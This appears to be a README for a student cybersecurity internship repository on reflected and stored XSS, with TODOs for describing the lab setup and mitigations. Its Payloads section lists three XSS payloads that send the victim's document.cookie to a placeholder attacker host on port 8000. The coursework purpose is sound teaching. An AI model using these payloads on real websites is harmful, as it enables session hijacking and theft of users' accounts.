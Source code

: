# Internship cyber security course
This repository collects tools and methodologies used in the context of system security intership
## Students
1. Dario Collini
2. Andrea Di Caro
## Analyzed vulnerabilities
- XSS reflected
- XSS stored

## Payloads
### Reflected
    <script>window.location.href="http://<attacker IP>:8000/a.html?c="+document.cookie</script>
### Stored
    <img src="x" onerror=this.src='http://<attacker IP>:8000/'+document.cookie; />
    <script>i=document.createElement('img');i.src='http://<attacker IP>:8000/'+document.cookie;document.body.appendChild(img)</script>

## TODO Filippo
Upload source files

## TODO Andrea & Dario
1. describe the analyzed vulnerabilites (you can use external references)
2. describe the laboratory setup. we need to have Apache2 with PHP enabled. You can install a XAMP server or use a docker container
3. describe the attacks scenario
4. describe the mitigation actions

